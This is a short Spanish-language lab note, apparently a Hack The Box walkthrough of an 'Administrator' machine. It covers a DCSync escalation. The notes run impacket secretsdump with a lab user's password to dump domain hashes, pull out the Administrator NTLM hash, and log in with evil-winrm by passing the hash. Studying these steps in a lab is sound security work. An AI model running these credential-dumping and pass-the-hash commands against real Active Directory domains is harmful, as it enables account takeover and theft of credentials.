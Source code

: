 #dcsync

------
Marcamos que somos owner del usuario *Ethan* y en *First Degree Object Control* nos aparece que podemos pasar al usuario *administrator* abusando de los privilegios. [[DcSync]] [[GetChanges]] o [[GetchangesAll]] . El ultimo permiso que falta en help decia que estaba bug
![[Administrator50.png]]

![[Administrator51.png]]
Nos dice que podemos usar [[impacket-secretsdump]] con el comando `secretsdump.py 'administrator.htb'/'ethan':'limpbizkit'@'administrator.htb'`

![[Imagenes/Administrator52.png]]
Nos da los hashes de todos los usuarios, a nosotros nos interesa solo el del usuario *Administrator* y solamente vamos a tomar todo lo que viene despues de los ultimos *:*
```
3dc553ce4b9fd20bd016e098d2d2fd2e
```

Ahora nos conectamos con [[evil-winrm]] usamos `evil-winrm -u administrator -H '3dc553ce4b9fd20bd016e098d2d2fd2e' -i 10.129.112.167`